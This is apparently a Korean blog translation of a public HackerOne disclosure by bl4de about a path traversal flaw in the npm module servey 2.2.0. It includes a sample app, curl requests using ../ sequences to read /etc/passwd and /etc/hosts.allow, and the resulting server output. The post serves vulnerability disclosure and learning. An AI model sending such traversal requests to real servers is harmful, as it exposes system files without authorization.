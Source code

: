 ```yaml
---
layout: post
title: 경로 이동 취약점은 확장 기능을 포함한 원격 서버의 어떠한 파일이라도 가져올 수 있게함(servey)
categories: PoC
tags: [Bugbounty, PathTraversal, Translation, Hackerone]
---
```

(와.. bl4de님이다~~)  

출처 : [hackerone hacktivity, 작성자 : bl4de] https://hackerone.com/reports/355501

_[ 본 이슈는 해결 된 상태이며, 취약점은 한국시각으로 2019년 4월 4일 오전 5시 08분에 공개되었습니다. Node.js third-party modules에 리포팅 되었으며, 해당 소스코드는 servey의 자산입니다. 취약점의 종류는 Path traversal이며, 포상금은 없습니다. 해당 취약점은 해당 도메인에서 4~6.9/10의 심각성을 내포하고 있습니다. ]_
- - -
팀원님들 안녕하세요,

저는 servey 모듈의 부분적인 경로 이동 공격에 대해서 리포팅하고 싶습니다.
이 취약점은 원격 서버에서 (확장 기능을 포함한) 어떠한 임의의 파일이라도 읽을 수 있게 합니다.

# 모듈
* 모듈 이름: servey
* 버전: 2.2.0
* npm 페이지: https://www.npmjs.com/package/servey
  
## 모듈 설명
정적인 단일 페이지 애플리케이션 서버

## 모듈 스탯
월별 ~120-200회의 다운로드가 된다고 추정됩니다.
- - -
# 취약점
## 공격이 발생되는 과정
* servey모듈을 설치합니다:
{% highlight html %}
$ npm install servey
{% endhighlight %}

* 모듈의 npm 문서에서 가져온 다음의 예제 코드를 이용해 샘플 애플리케이션을 생성합니다:
{% highlight javascript %}
// app.js
const Servey = require('servey');
const Path = require('path') 
const server = Servey.create({
    spa: true,
    port: 8080,
    folder: Path.join(__dirname, 'static')
});

server.on('error', function (error) {
    console.error(error);
});

server.on('request', function (req) {
    console.log(req.url);
});

server.on('open', function () {
    console.log('open');
});

server.open();
{% endhighlight %}

* 앱을 실행합니다:
{% highlight text %}
$ node app.js 
open
{% endhighlight %}

* /etc/passwd (어떠한 확장 기능도 없는 예시 파일)의 내용을 가져오길 시도합니다. servey는 이러한 파일의 접근을 허용하지 않고 HTTP 500 인터널 서버 에러를 띄웁니다:
{% highlight text %}
$ curl -v --path-as-is localhost:8080/../../../../../../etc/passwd
*   Trying ::1...
* connect to ::1 port 8080 failed: Connection refused
*   Trying 127.0.0.1...
* Connected to localhost (127.0.0.1) port 8080 (#0)
> GET /../../../../../../etc/passwd HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 500 Internal Server Error
< Content-Type: text/html; charset=utf8
< Date: Mon, 21 May 2018 13:08:15 GMT
< Connection: keep-alive
< Transfer-Encoding: chunked
< 
* Connection #0 to host localhost left intact
{"code":500,"message":"Internal Server Error"}
{% endhighlight %}

* 요청이 실패했다는 것을 로그를 통해 보여줍니다:
{% highlight text %}
$ node app.js 
open
/../../../../../../etc/passwd
{ Error: ENOENT: no such file or directory, open '/home/rafal.janicki/playground/hackerone/node/static/index.html'
  errno: -2,
  code: 'ENOENT',
  syscall: 'open',
  path: '/home/rafal.janicki/playground/hackerone/node/static/index.html' }
{% endhighlight %}

* 이제, 다음의 curl 명령의 실행을 통해 /etc/hosts.allow (당신의 시스템 환경에 따라 ../ 경로를 추가해 주세요)의 내용을 가져오길 시도합니다:
{% highlight text %}
$ curl -v --path-as-is localhost:8080/../../../../../../etc/hosts.allow
*   Trying ::1...
* connect to ::1 port 8080 failed: Connection refused
*   Trying 127.0.0.1...
* Connected to localhost (127.0.0.1) port 8080 (#0)
> GET /../../../../../../etc/hosts.allow HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Content-Type: undefined; charset=utf8
< Date: Mon, 21 May 2018 13:06:38 GMT
< Connection: keep-alive
< Transfer-Encoding: chunked
< 
# /etc/hosts.allow: list of hosts that are allowed to access the system.
#                   See the manual pages hosts_access(5) and hosts_options(5).
#
# Example:    ALL: LOCAL [@some_netgroup](/some_netgroup)
#             ALL: .foobar.edu EXCEPT terminalserver.foobar.edu
#
# If you're going to protect the portmapper use the name "rpcbind" for the
# daemon name. See rpcbind(8) and rpc.mountd(8) for further information.
#

* Connection #0 to host localhost left intact
{% endhighlight %}

* servey앱의 로그를 다시한번 더 체크해봅니다:
{% highlight text %}
$ node app.js 
open
/../../../../../../etc/passwd
{ Error: ENOENT: no such file or directory, open '/home/rafal.janicki/playground/hackerone/node/static/index.html'
  errno: -2,
  code: 'ENOENT',
  syscall: 'open',
  path: '/home/rafal.janicki/playground/hackerone/node/static/index.html' }
/../../../../../../etc/hosts.allow
{% endhighlight %}
hosts.allow 요청이 실패하지 않았다는 것과 파일의 내용을 가져올 수 있었다는 것을 확인할 수 있습니다.  
- - -

# 패치
N/A (해당 없음)

# 지원하는 요소나 레퍼런스
취약점이 발견된 스택에 관련된 기술적인 정보들
* 운영체제: Ubuntu 16.04
* Node.js 8.11.1
* npm v. 6.0.1
* curl 7.47.0

# 정리
* maintainer가 알 수 있도록 컨택했습니다 : No
* 관련된 리포지토리 안의 정보들을 열람했습니다 : No

Rafal ‘bl4de’ Janicki 올림.
- - -
# 영향
공격자는 확장 기능을 포함한 원격 서버의 어떠한 파일의 내용이라도 가져올 수 있습니다.